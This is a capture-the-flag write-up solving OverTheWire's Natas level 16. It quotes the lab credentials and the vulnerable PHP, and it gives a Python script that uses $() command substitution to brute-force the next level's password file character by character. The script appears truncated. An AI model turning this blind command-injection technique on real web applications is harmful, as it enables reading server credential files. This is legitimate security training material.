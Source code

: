 ```text
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

## Natas 16 Solution

**URL :** [http://natas16.natas.labs.overthewire.org](http://natas16.natas.labs.overthewire.org) <br/>
**Credentials :** *natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh*

Here is the PHP code for this challenge :

```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```

Here, we have a search field used to find words containing a pattern we can specify. We also have a filter on certain characters. However, we still can inject command. The `$`, `(`, `)` are not filtered so we can use **$()** as command substitution. 

Still, I discoverd that we could not directly read the file with the command substitution but, we could have boolean answer from the script! We just need to solve it the same way we did with the previous blind SQL Injection.

Here is how it works :

- If you submit a random letter in the search field you'll get a result
- If you submit an empty field you get nothing

So, if you inject `$(grep -E ^x.* /etc/natas_webpass/natas17)`:

- No results = **True** (the password starts with **x**)
- Results = **False** (the password does note starts with **x**)

I wrote a simple Python scripts to solve this one. I used the page size as an indicator of true/false.

```python
import requests
import sys
from string import digits, ascii_lowercase, ascii_uppercase

charset = ascii_lowercase + ascii_uppercase + digits
s = requests.Session()
s.auth = ('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')

password = ""
# We assume that the password is 32 chars 
while len(password) < 32:
    for char in charset:
        payload = {'needle': '$(grep -E ^%s.* /etc/natas_webpass/natas17)' % (password + char)}
        r = s.get('http://natas16.natas.labs.overthewire.org/index.php', params=payload)

        if len(r.text) == 1105:
            sys.stdout.write(char)
            sys.stdout.flush()
```
